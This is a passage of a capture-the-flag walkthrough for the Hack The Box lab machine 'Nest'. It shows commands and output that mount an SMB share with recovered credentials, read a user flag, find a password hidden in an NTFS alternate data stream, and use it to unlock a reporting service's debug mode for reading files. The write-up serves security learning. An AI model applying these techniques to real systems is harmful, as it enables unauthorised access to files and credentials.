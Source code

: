 We can see that we now have access to `Users\C.Smith` so the next step is to mount that share.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nest/SMB$ mkdir C.Smith
luc@kali:~/Documents/Cyber-security/HTB/Nest/SMB$ sudo mount //10.10.10.178/Users/C.Smith C.Smith -o username=c.smith,password=xRxRxPANCAK3SxRxRx
```

### Reading the user flag

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nest/SMB/C.Smith$ cat user.txt; echo
cf71b254************************
```

## HQK Reporting

The C.Smith folder has a subfolder named `HQK Reporting` this is the software we found on port 4386. The `Debug Mode Password.txt` file is empty and `HQK_config_backup.xml` only confirms that this software uses port 4386.

### Alternative streams on Debug Mode Password.txt

We can't be sure how the HQK reporting software works, but it's interesting there there is a file named `Debug Mode Password.txt`. This file looks like a normal empty file, but a closer investigation shows that there is an Alternate Data Stream (ADS). This is an ability of an NTFS file system. We can use `smbclient` and the `allinfo` command to see this alternate stream.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nest/SMB/C.Smith/HQK Reporting$ smbclient \\\\10.10.10.178\\Users --user=c.smith
Enter WORKGROUP\c.smith's password:
Try "help" to get a list of possible commands.
smb: \> cd C.Smith\
smb: \C.Smith\> cd "HQK Reporting"
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Fri Aug  9 01:06:12 AM 2019 CEST
access_time:    Fri Aug  9 01:06:12 AM 2019 CEST
write_time:     Fri Aug  9 01:08:17 AM 2019 CEST
change_time:    Fri Aug  9 01:08:17 AM 2019 CEST
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> more "Debug Mode Password.txt:Password"
WBQ201953D8w
```

### HQK Reporting Service V1.2

We can now use this password to enable the debug options on the HQK Reporting Service. Enabling the debug options allows us to use `setdir` to change directory and `list` to show the files in the directory. We can use `showquery` to read files. We use this to go to the `../LDAP` folder and read the content of `Ldap.conf`.
